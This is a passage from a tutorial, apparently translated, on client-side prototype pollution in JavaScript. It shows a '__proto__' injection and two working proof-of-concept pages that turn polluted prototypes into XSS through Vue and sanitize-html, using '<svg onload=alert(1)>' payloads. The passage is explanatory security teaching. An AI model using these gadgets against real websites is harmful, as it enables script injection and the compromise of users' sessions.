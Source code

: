 An attacker can pass `{y: '__proto__', x: 'test', color: '123'}`, which will result in `screen.__proto__.test = '123'`, polluting `Object.prototype.test`. Therefore, for values passed by users, it is crucial to perform validation.

Now that we know where prototype pollution issues can occur, it is not enough to just pollute the properties on the prototype. We need to identify the areas that can be affected, meaning the places where the behavior changes after the properties are polluted. This allows us to execute attacks.

## Prototype pollution script gadgets

These "code snippets that can be exploited if we pollute the prototype" are called script gadgets. There is a GitHub repository dedicated to collecting these gadgets: [Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution). Some of these gadgets may be unimaginable. Let me demonstrate:

``` html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <script src="https://unpkg.com/vue@2.7.14/dist/vue.js"></script>
</head>
<body>
  <div id="app">
    {{ message }}
  </div>
  <script>
    // 污染 template
    Object.prototype.template = '<svg onload=alert(1)></svg>';
    var app = new Vue({ 
      el: '#app',
      data: {
        message: 'Hello Vue!'
      }
    });
  </script>
</body>
</html>

```

A seemingly harmless Vue hello world code, but after polluting `Object.prototype.template`, it becomes an XSS vulnerability that allows us to inject arbitrary code.

Or like this:

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
</head>
<body>
  <script>
    Object.prototype.innerText = '<svg onload=alert(1)></svg>';
    document.write(sanitizeHtml('<div>hello</div>'))
  </script>
</body>
</html>
```
